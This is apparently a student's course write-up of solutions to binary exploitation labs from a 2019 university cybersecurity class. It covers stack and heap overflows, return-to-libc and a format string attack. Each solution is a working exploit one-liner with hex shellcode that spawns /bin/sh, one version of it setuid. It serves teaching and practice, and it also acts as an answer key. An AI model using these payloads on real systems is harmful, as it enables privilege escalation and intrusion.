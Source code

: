 # Emory Fall 2019: CS453: Cybersecurity

The labs are on platform.adversary.io. They consisted of binary bombs, web exploit exercises, and binary exploits.
This folder only contains the binary exploit puzzles and their solutions.

## Overflow 1

Solution:  
./overflow aaaabbbbccccdddd$(perl -e 'print "\x48\x43\x4b\x52"')  
Pretty standard overflow: just had to input the location for secret after filling up the buffer.


## Overflow 2

Solution:  
./overflow2 $(perl -e 'print "\x90" x (256-40)')$(perl -e 'print "\xeb\x18\x5b\xb8\xf5\xff\xff\xff\xf7\xd8\x31\xd2\x88\x53\x07\x89\x5b\x08\x89\x53\x0c\x8d\x4b\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x43\x43" ')AAAAAAAAAAAA$(perl -e 'print "\xe8\xd4\xff\xff"')  
The idea is to fill up the buffer, leaving 40 bytes of room for the shellcode. Then, overwrite the ebp, and return into the buffer. Some extra padding was used for stack alignment. 

## Chained Overflow
Solution:  
echo $(perl -e 'printf "\x11" x 4')$(perl -e 'print "\x90" x 3812')$(perl -e 'print "\x90" x (256-55)')$(printf "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xeb\x18\x5b\xb8\xf5\xff\xff\xff\xf7\xd8\x31\xd2\x88\x53\x07\x89\x5b\x08\x89\x53\x0c\x8d\x4b\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x43\x45")$(printf "\x97\x6c\x6c\xe8\xd4\xff\xff") > temp.hex  
cat temp.hex - | ./overflow RUSHKEKEKE$(perl -e 'printf "\x2e"x9')$(printf "\x34\xa9\x87\x04\x08")
This was a tedious one.  
- Step 1: Bypass the first comparison by filling it with hex characters such that the first 10 characters spell RUSHKEKEKE and the sum of the hex representation of RUSHKEKEKE and the subsequent 14 characters divide 256. 
- Step 2: Edit the shellcode so that it runs setuid (getuid, getuid), otherwise the shell won't spawn with privileges (I realized this in hindsight after spawning a useless shell).
- Step 3: The size of the buffer is not show in the code, so I had to use gdb to find the size of the buffer which turned out to be 4068. Fill the buffer with the shellcode and some extra padding to also make sure that the sum of the hex characters in the buffer is divisible by 256. 
- Step 4: Hold the door open by piping in the shellcode + nopsled with '-' so that the keyboard remains interactive and end of input is not reached. If end of input is reached, shell instantly closes. 

## Heap Overflow 1
Solution:  
./heap-arbitrary-overwrite $(perl -e 'printf "A" x 40')$(printf "\x9c\xcf\x0e\x08") $(perl -e 'printf "\x44\x33\x22\x11"')$(perl -e 'printf"B" x 32')  

## Heap Overflow 2
Solution:  
./heap-hijack-funcptr $(perl -e 'printf "A" x 72')$(printf '\xdf\x89\x04\x08')  
V simple; the size of the allocated space was 64 + 8 bytes, and overflow the next pointer to return into the shell 

## Return to libc
Solution:  
./overflow $(perl -e 'print "AAAA"x764')AAAA$(printf "ABCDD\xa6\x85\x04\x08")$(printf "\x40\x6b\xe4\xf7")AAAA$(printf "\xc8\x8d\xf6\xf7")  
The idea behind the attack is that because the stack is nonexecutable, you have to return to places in memory that are executable. 


## Format String
Solution:  
./format $(perl -e 'print "\x41\xc0\xd2\xff\xff\xc1\xd2\xff\xff\xc2\xd2\xff\xff\xc3\xd2\xff\xff"')%$[0xfb-0x20]u%10\$n%$[0x184-0xfb]u%11\$n%$[0x204-0x184]u%12\$n%$[0x308-0x204]u%13\$n%271\$p.%272\$p.%273\$p.%274\$p.%275\$p  
Inject shellcode and then point to it by manipulating format strings

